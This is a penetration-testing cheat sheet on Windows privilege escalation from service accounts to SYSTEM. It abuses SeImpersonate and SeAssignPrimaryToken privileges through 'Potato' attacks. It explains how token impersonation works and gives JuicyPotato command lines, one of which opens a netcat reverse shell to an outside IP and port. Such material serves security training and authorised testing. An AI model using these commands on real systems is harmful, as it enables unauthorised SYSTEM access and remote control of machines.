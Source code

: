 # SeImpersonate & SeAssignPrimaryToken Privilege Escalation

## 🎯 Overview

**SeImpersonate and SeAssignPrimaryToken** are powerful privileges that allow escalation from service accounts to SYSTEM level access. These privileges enable processes to impersonate other users' security tokens, commonly exploited through "Potato-style" attacks.

## 🔑 Token Impersonation Fundamentals

### Access Token Concepts
- **Process tokens** contain security context information
- **Token impersonation** allows assuming another user's identity
- **SeImpersonatePrivilege** required to utilize stolen tokens
- **Memory-based attacks** target token locations in process memory

### Key Privileges
```cmd
SeImpersonatePrivilege        # Impersonate client after authentication
SeAssignPrimaryTokenPrivilege # Replace process level token
```

**Common Service Account Context:**
- IIS application pools
- SQL Server service accounts  
- Jenkins execution contexts
- MSSQL xp_cmdshell execution

## 🥔 Potato Attack Family

### Attack Mechanism
1. **Service account** has SeImpersonatePrivilege but limited SYSTEM access
2. **Potato attack** tricks SYSTEM process to connect to attacker-controlled process
3. **Token handover** occurs during connection authentication
4. **Token abuse** elevates privileges to NT AUTHORITY\SYSTEM

### JuicyPotato - Legacy Systems

#### Prerequisites
- **SeImpersonate** OR **SeAssignPrimaryToken** privilege
- **Windows Server 2016** and earlier (before build 1809)
- **DCOM/NTLM reflection** capabilities

#### Basic Usage
```cmd
# Basic privilege escalation
JuicyPotato.exe -l [listening_port] -p c:\windows\system32\cmd.exe -a "/c [command]" -t *

# Reverse shell example
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```
